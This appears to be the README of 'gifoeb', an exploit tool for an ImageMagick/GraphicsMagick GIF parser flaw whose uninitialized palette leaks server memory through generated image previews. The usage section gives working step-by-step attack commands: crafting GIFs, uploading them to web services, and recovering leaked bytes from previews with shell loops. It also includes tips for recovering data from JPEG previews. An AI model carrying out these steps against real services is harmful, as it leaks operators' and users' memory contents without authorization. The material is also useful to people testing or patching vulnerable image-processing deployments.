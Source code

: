### Summary

ImageMagick/GraphicsMagick's gif parser before https://github.com/ImageMagick/ImageMagick/commit/9fd10cf630832b36a588c1545d8736539b2f1fb5 leaves the palette uninitialized if neither global nor local palette is present. If IM/GM is used as a library loaded into a process that operates on interesting data, this data sometimes can be leaked via the uninitialized palette.

### How to use

1. Run `./gifoeb gen 512x512 dump.gif`. The script needs ImageMagick (default) or GraphicsMagick (use `--tool GM`) to generate the images.
2. Upload `dump.gif` somewhere. If the following conditions hold true
   1. A preview is generated
   2. It is preferably not a JPEG (see notes)
   3. It changes significantly from one upload to another

   then you're lucky.
3. Download and save the preview as `preview.ext`.
4. ```bash
   r=$(identify -format '%wx%h' preview.ext[0]) &&
   mkdir -p for_upload &&
   for i in `seq 1 10`; do
      ./gifoeb gen $r for_upload/$i.gif;
   done
   ```
5. Upload `for_upload/*.gif` to the webservice and download the previews.
6. ```bash
     for p in previews/*; do
       ./gifoeb recover $p | strings;
     done
   ```
7. Repeat 4-6 until you get something interesting or tired.

### Notes on JPEG previews

Unfortunately, conversion to JPEG corrupts the palette at the very first stage --- RGB->YCbCr conversion. All other stages almost don't cause information loss if the picture consists of 16x16 squares of one color and the JPEG conversion quality >= 75. You can still try `gifoeb recover` on JPEG images, but only ~60% bytes will be recovered accurately and others will be recovered with +-1 error. If the resolution of the preview is less than 256x256 then we can't fit all 256 squares and `gifoeb gen` will generate squares of smaller size, so the recover success rate will be even lower.

You can play with image generation and palette recovery alogirithms (see functions `gen_picture` and `recovery` in `gifoeb`). Test it `./gifoeb recover_test --format jpg`, like this:
```
$ ./gifoeb recover_test --format jpg 300x300
test completed, 0 not recovered, 228 wrong, 540 ok
```
